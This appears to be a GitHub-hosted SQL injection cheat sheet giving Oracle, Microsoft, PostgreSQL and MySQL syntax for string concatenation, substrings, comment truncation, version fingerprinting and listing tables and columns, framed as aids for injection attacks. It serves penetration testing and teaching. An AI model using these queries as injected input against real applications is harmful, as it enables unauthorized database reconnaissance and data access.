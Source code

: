 # SQL Injection Cheatsheet

> This SQL injection cheat sheet contains examples of useful syntax that you can use to perfrom a variety of tasks that often arise when performing SQL injection attacks.

# String Concatenation

> You can concatenate together multiple strings to make a single string.

**Oracle** :: 'foo'||'bar'
**Microsoft** :: 'foo'+'bar'
**PostgreSQL** :: 'foo'||'bar'
**MySQL** :: 'foo' 'bar' [Note the space between the two strings]
**MySQL** :: CONCAT('foo','bar')

# Substring

> You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

**Oracle** :: SUBSTR('foobar', 4, 2)
**Microsoft** :: SUBSTRING('foobar', 4, 2)
**PostgreSQL** :: SUBSTRING('foobar', 4, 2)
**MySQL** :: SUBSTRING('foobar', 4, 2)

# Comments

> You can use comments to truncate a query and remove the portion of the original query that follows your input.

**Oracle** :: --comment
**Microsoft** :: --comment or /*comment*/
**PostgreSQL** :: --comment or /*comment*/
**MySQL**	:: #comment or -- comment or /*comment*/ [Note the space after the double dash]

# Database version

> You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

**Oracle**  :: SELECT banner FROM v$version or SELECT version FROM v$instance
**Microsoft** :: SELECT @@version
**PostgreSQL** :: SELECT version()
**MySQL** :: SELECT @@version

# Database contents

> You can list the tables that exist in the database, and the columns that those tables contain.

**Oracle** :: SELECT * FROM all_tables or SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
**Microsoft** :: SELECT * FROM information_schema.tables or SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
**PostgreSQL** :: SELECT * FROM information_schema.tables or SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
**MySQL** :: SELECT * FROM information_schema.tables or SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

